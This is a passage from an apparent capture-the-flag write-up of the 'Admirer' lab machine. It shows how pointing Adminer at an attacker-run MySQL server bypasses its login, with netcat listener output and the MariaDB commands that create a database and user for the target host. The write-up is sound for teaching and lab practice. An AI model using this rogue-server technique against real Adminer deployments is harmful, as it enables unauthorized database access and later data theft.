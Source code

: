 None of the obtained credentials work, but it is possible to specify a different server and it connects there:
```
System: MySQL
Server: 10.10.14.9
Username: testuser
Password: testpass
Database: testdb
```

My `netcat` listener on port 3306 receives a response after trying to login:
```
nc -lvnp 3306

Ncat: Listening on 0.0.0.0:3306
Ncat: Connection from 10.10.10.187.
```

This means that we can setup our own MySQL database to bypass the authentication and access the **Adminer** interface.

### Exploiting Adminer

Starting the MySQL service and login in on our local client:
```
service mysql start

mysql -u root
```

Creating a database and a user:
```
MariaDB [(none)]> create database admirer_bypass;

MariaDB [(none)]> create user 'testuser1'@'10.10.10.187' IDENTIFIED BY 'PasswordForAdmirer!';

MariaDB [(none)]> GRANT ALL ON admirer_bypass.* TO 'testuser1'@'10.10.10.187';

MariaDB [(none)]> FLUSH PRIVILEGES;
```

Changing the bind address for MySQL in the local _/etc/mysql/mariadb.conf.d/50-server.cnf_ file:
```
(...)
bind-address            = 0.0.0.0
(...)
```

Restarting the service, so the changes take effect:
```
service mysql restart
```

Now it is possible to login into the database with **Adminer**:
```
System: MySQL
Server: 10.10.14.9
Username: testuser1
Password: PasswordForAdmirer!
Database: admirer_bypass
```
